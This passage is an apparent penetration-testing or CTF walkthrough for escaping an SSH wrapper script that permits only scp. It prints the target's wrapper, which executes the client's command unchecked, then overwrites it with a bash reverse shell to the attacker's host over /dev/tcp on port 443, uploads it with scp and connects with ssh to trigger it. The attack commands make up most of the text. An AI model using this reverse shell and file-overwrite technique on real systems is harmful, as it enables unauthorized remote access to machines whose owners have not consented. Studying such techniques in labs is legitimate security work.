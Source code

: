 
#### Overwrite files on target (sshd_config)
\
```
scp -i file.pem user@remote_host:/home/user/file.json /local/path/to/save/
```
Source code retrieved from target:
```
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```
Notice "scp" is just a system command, so let's replace that line with a reverse shell:
```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```
```bash - kali
scp -i id_rsa ../scp_wrapper.sh max@$TARGET:/home/max
```
```bash - kali
ssh -i id_rsa max@$TARGET
```